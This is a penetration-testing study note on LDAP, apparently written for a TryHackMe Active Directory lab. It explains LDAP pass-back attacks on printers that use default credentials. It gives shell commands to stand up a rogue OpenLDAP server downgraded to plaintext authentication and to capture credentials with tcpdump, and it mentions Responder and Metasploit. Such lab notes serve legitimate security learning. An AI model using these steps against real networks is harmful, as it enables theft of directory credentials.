

LDAP (U:389)
Lightweight Directory Access Protocol
U:389 - LDAP services

https://www.youtube.com/watch?v=Xjpi8xYqPcY

**What is LDAP?**
- LDAP stands for Lightweight Directory Access Protocol.
- Manages and authenticates directories (search, add, delete, modify).
- Used for directory creation and management.
- Open and cross-platform protocol.
- Allows communication with Active Directory.
- Querying (authentication based on queries).

**Usage:**
- Used in technical applications/on-prem infrastructure.
- Authentication in Linux applications (Jenkins, Gitlab, etc.).

**Authentication Process:**
- User inputs login credentials.
- LDAP queries LDAP database to confirm match with stored credentials.

**Security Implications:**
- Risks similar to NTLM systems when exposed to the internet.
- Additional vulnerabilities due to AD credential usage.

**Attack Scenario:** attackers target LDAP services to recover AD credentials for unauthorized access.

**Security Risks:** AD credentials stored in plaintext configuration files could be compromised.

**Mitigation:** secure configuration file management and host security measures are crucial.

# LDAP Authentication


# LDAP Pass-back Attacks
https://medium.com/r3d-buck3t/pwning-printers-with-ldap-pass-back-attack-a0d8fa495210

**Attack Scenario:** attack against LDAP authentication mechanisms. Attackers gain initial access to the internal network.

**LDAP Pass-back Attacks:**
- Occur when access to device configuration is gained.
- Example: Web interface of a network printer.
- Default credentials often used (e.g., `admin:admin`, `admin:password`).
- Unable to directly extract LDAP credentials.
- Alter LDAP configuration (e.g., IP or hostname of LDAP server).
- Modify IP to attacker's IP and test LDAP configuration.
- Device attempts LDAP authentication to rogue device.
- Intercept authentication attempt to recover LDAP credentials.

## Hosting a Rogue LDAP Server
### responder
[[responder]]
Responder does not have a configuration mechanism to downgrade the authentication to plaintext login, but we can still:
- Capture the NetNTLM hash
- Then, try to crack it (you **can not** pass-the-hash with NetNTLM hashes)
### OpenLDAP
```bash
# install and load slapd  
sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd  
  
#configure slapd  
sudo dpkg-reconfigure -p low slapd  
#(domain = za.tryhackme.com , everything else leave default)  

#downgrading the supported authentication mechanisms
# ensure that our LDAP server only supports PLAIN and LOGIN authentication methods.
#Save in file "olcSaslSecProps.ldif"  
dn: cn=config  
replace: olcSaslSecProps  
olcSaslSecProps: noanonymous,minssf=0,passcred  

# Commit the new changes with **_ldapmodify_** and restart the server.
sudo ldapmodify -Y EXTERNAL -H ldapi:// -f /home/kali/Downloads/exploits/olcSaslSecProps.ldif && sudo service slapd restart

# verify that our rogue LDAP server's configuration has been applied
$ ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms
```
**Use a `tcpdump`/`Wireshark` to capture the  LDAP credentials**
```bash
$ sudo tcpdump -SX -i breachad tcp port 389
```
![[image-20.png]]

```bash
# stop your LDAP server
$ sudo systemctl disable --now slapd
```
### msf6 auxiliary(server/capture/ldap)